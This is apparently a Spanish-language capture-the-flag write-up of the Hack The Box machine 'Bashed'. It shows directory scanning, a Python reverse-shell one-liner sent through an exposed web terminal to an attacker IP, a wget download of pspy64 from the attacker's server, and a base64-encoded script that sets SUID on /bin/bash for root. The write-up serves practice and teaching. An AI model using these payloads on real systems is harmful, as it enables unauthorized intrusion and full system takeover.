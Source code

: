 ```yaml
---
layout: single
title: Writeup HTB - Maquina Bashed
comments: true
excerpt: "La maquina Bashed es una maquina linux - Easy, que nos presenta una aplicacion web que ejecuta comandos en el servidor modo terminal web, aprovechamos esto para obtener una reverse shell y ejecutamos commandos como el user www-data, posteriormente escalamos privilegios como el usuario scriptmanager haciendo uso de los permisos de sudo. Finalmente logramos escalar privilegios como el usuario root modificando el archivo test.py ya que habia una tarea que ejecutaba dicho archivo como usuario root."
date: 2022-02-02
classes: wide
header:
  teaser: /assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - OSCP  
  - Hacking
  - Linux
  - Easy
---
```



# Bashed

<p align="center">
<img src="/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled.png">
</p>


## Resumen

<div style="text-align: justify">
La maquina Bashed es una maquina linux - Easy, que nos presenta una aplicacion web que ejecuta comandos en el servidor modo terminal web, aprovechamos esto para obtener una reverse shell y ejecutamos commandos como el user www-data, posteriormente escalamos privilegios como el usuario scriptmanager haciendo uso de los permisos de sudo. Finalmente logramos escalar privilegios como el usuario root modificando el archivo test.py ya que habia una tarea que ejecutaba dicho archivo como usuario root.
</div>

## Scan Nmap

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%201.png)

## Pagina web - Port 80

bueno ya que tenemos solo un puerto esta maquina, revisemos la pagina web para ver que contiene. 

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%202.png)

vemos que tenemos una aplicacion llamada phpbash, si acedemos al enlace de la pagina vemos una url en la imagen

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%203.png)

intentamos acceder a dicha url pero sin exito

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%204.png)

tambien vemos que nos proporcionan un repositorio de la aplicacion

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%205.png)

por lo tanto hare un escaneo de directorios con dirsearch

```bash
bashed # ❯ dirsearch -u http://10.129.160.128 -w /usr/share/wordlists/dirb/common.txt -f -e php,html,js,txt,save,bak
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%206.png)

entonces me interesa la ruta dev y vemos que contiene los archivos del repositorio

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%207.png)

dicha aplicacion nos permite ejecutar comandos en el servidor de una terminal web

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%208.png)

## Reverse shell - User www-data

asi que aprovecharemos la ejecucion de comandos para obtener una reverse shell, primero dejaremos el puerto 443 en escucha con netcat

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%209.png)

y  agremos el siguiente payload a la aplicacion vulnerable

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.54",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

logrando conectarnos siendo el user www-data

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2010.png)

## Escalacion de privilegios - user scripts

revisando los permisos de sudoers, encontramos que podemos ejecutar cualquier comando con el user scriptmanager

```bash
www-data@bashed:/tmp$ sudo -l
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2011.png)

asi que obtenemos una sesion con dicho usuario de la siguiente manera

```bash
www-data@bashed:/tmp$ sudo -u scriptmanager /bin/bash
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2012.png)

## Escalacion de privilegios - user root

para escalar privilegios descargare en la maquina victima la herramienta pspy64, ya que dicha herramienta monitoreara todo los procesos y tareas que se ejecuten en la maquina victima. Asi pues para realizar este cometido crearemos un servidor web en python

```bash
bashed # > python3 -m http.server 80
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2013.png)

y descargamos nuestra herramienta de la siguiente manera

```bash
www-data@bashed:/tmp$ wget http://10.10.14.54/pspy64
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2014.png)

ejecutamos nuestra herramienta pspy64

```bash
scriptmanager@bashed:/scripts$ chmod +x pspy64 
scriptmanager@bashed:/scripts$ ./pspy64
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2015.png)

notamos que se esta ejecutando un script test.py

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2016.png)

si revisamos la carpeta de dicho archivo vemos que podriamos modificar test.py para ejecutar algun comando que nos ayude a escalar privilegios a root

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2017.png)

Por lo tanto modificaremos test.py de esta manera para otorgar permisos de suid al binario bash de esa manera podremos lograr ser root!!

```bash
scriptmanager@bashed:/scripts$ echo aW1wb3J0IG9zCm9zLnN5c3RlbSgnY2htb2QgdStzIC9iaW4vYmFzaCcp | base64 -d > test.py
scriptmanager@bashed:/scripts$ cat test.py 
import os
os.system('chmod u+s /bin/bash')
```

esperamos un momento y revisamos los permisos de /bin/bash, vemos que todo funciono

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2018.png)

asi que ejecutamos /bin/bash para ser root!!

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2019.png)

gracias por ver este writeup, espero que te hayas divertido tanto como yo me diverti haciendolo. Nos vemos Abeljm